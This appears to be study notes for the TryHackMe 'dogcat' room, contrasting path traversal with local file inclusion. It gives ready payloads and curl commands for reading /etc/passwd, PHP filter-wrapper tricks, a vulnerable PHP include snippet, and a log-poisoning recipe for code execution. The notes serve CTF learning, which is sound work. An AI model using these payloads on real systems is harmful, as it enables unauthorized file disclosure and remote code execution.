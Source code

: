 # dogcat

<details>
    <summary></summary>

## **`path traversal VS LFI`**
   
- **Path Traversal** = *jumping in the folder tree* using `../` to access a file that you are not allowed to view (usually the endpoint reads/returns a file).

- **LFI (Local File Inclusion)** = *Inserting a file into a server/application* --- The input is used in include/require functions or displaying files within the application. **LFI can use Path Traversal** to access a file, but it has a broader footprint (its use can lead to code execution).

--- 

**Mnemonic:**

> Path traversal = "..\" (jump folders) --- LFI = "include/require" (app includes file).

---

**Path traversal (eg download endpoint):**

- URL: `GET /download?file=reports/2024.pdf`

- Test: `file=../../../../etc/passwd` → the server returns the content of `/etc/passwd`

- Behavior: The server reads and returns the file to the user.



**LFI (PHP example):**

```php
<?php
$page = $_GET['page'];
include("/var/www/pages/". $page);
?>
```

- Test: `page=../../../../etc/passwd` → may print file content within web page (LFI).

- But LFI can be improved: `page=php://filter/convert.base64-encode/resource=../../../../etc/passwd` → returns the base64 content (when characters do not appear correctly).

---

Examples of quick payloads for testing
=============================================

-   **Path traversal (only reading tests):**

    -   `../../../../etc/passwd`

    -   `..%2f..%2f..%2fetc%2fpasswd` (URL-encoded)

    -   `....//....//etc/passwd` (some servers deal with strange conversion methods)



-   **LFI-specific cheats:**

    -   `php://filter/convert.base64-encode/resource=../../../../etc/passwd` (for PHP)

    -   Trying to read logs: `../../../../var/log/apache2/access.log` and then injecting an HTTP request with a payload to record it in the log (log poisoning) → then include on the log → execute code (RCE) in some cases.

    -   `expect://`, `data://`, `input://` --- wrappers can be used if possible.

> Note: The null byte (`%00`) is old and does not work on modern versions of PHP, so relying on it is not reliable.




---

How do you tell them apart in practice (quick test)
=============================================

1. Try `../../../../etc/passwd`

    - If the file content appears → you will be able to say **Path Traversal or LFI**.

2. See the response:

    - If the server returns the file as **download/attachment** or plain file content → often **Path Traversal** (endpoint dedicated to reading/downloading files).

    - If the file appears inside the application page or is passed through include → usually **LFI**.









----
----

<details>
  <summary>how to know which one you face</summary>



Detailed process steps (with commands + what to expect)
---------------------------------------

### 1) Simple request for path (read file)

commander:

```
curl -i "http://TARGET/vulnerable?file=../../../../etc/passwd"
```

- **If the content of /etc/passwd appears as clear text** (and the HTTP status is 200): Possible **Path Traversal or LFI** --- additional checks are needed to distinguish them.

- See the response headers (`Content-Type`, `Content-Disposition`):

    - `Content-Disposition: attachment; filename="etc_passwd"` → Mostly **Path Traversal** (endpoint is for mounting).

    - `Content-Type: text/html` and the content is embedded within an HTML page → possibly **LFI** (included in page).


---

### 2) PHP wrapper test (robust differentiation test---tests LFI on PHP applications)

commander:

```
curl -s "http://TARGET/vulnerable?file=php://filter/convert.base64-encode/resource=../../../../etc/passwd"
```

- **If it returns base64** → This is strong evidence that the request went through PHP's include/require function --- **LFI** (not just read/download).

- **If it does not change** or the server rejects it → it is less likely that there is an LFI on PHP (but it may be Path Traversal or another language).

---

### 3) Does the file appear as a download file or within a page?

- Load/Attachment/Content-Disposition → **Path Traversal** Mostly.

- Within an HTML page (eg content between `<pre>` or at a page location) → **LFI** or include.

- Note: Some applications may return the file inside HTML even though it is just reading --- see the following steps.

---

### 4) Test the behavior by calling the application's PHP file

-   Try requesting an internal PHP file that usually exists (eg `/index.php`):

```
curl -i "http://TARGET/vulnerable?file=../../../../var/www/html/index.php"
```

-   **If the content is returned as PHP source code (meaning <?php ...)** → this means the server only *read* the file as text → mostly **Path Traversal** on the reading endpoint.

-   **If it appears as a result of executing the index.php (the resulting HTML)** → the application means **includes the file inside the server** (running it) → this is the behavior of **LFI** or include within the display context.


> Important note: Normally including a PHP file via include cannot cause it to be executed again on the server if it is included as text; But if the application uses `include` or `require` you will see the effect of include (the PHP code may be executed in the process).



---


### 5) Log poisoning test (effectively separates LFI from path traversal)

- Send a regular request with payload in `User-Agent` or path to be registered in access.log:

```
curl -A "<?php echo 'PWN'; ?>" "http://TARGET/"
```

- Then try include for log:

```
curl -i "http://TARGET/vulnerable?file=../../../../var/log/apache2/access.log"
```

- **If the text `PWN` appears in the response** → it means the server has read the log.

- **If you observe an execution or resulting change** (eg running code) → this indicates **LFI with exploitability**.


- If `PWN` does not appear despite its presence in the log → perhaps the endpoint does not allow reading those paths (or the file is out of validity) → Path Traversal may be limited.

> Warning: Testing log poisoning on real systems may be offensive --- only use it on licensed test environments or platforms (TryHackMe).



---

Shortcut tools/commands that you can save
----------------------------------

- Normal reading:

    `curl -i "http://TARGET/vuln?file=../../../../etc/passwd"`

- PHP wrapper test:

    `curl -s "http://TARGET/vuln?file=php://filter/convert.base64-encode/resource=../../../../etc/passwd" | base64 -d`

- Test include for PHP file:

    `curl -i "http://TARGET/vuln?file=../../../../var/www/html/index.php"`

- log poisoning test (only on test environment):

    `curl -A "<?php echo 'PWN'; ?>" "http://TARGET/"
    curl -i "http://TARGET/vuln?file=../../../../var/log/apache2/access.log"`








  
</details>

----
----









  
</details>


































## **`Nmap Scan`**

```ruby
namp -sCV 10.10.10.10
```


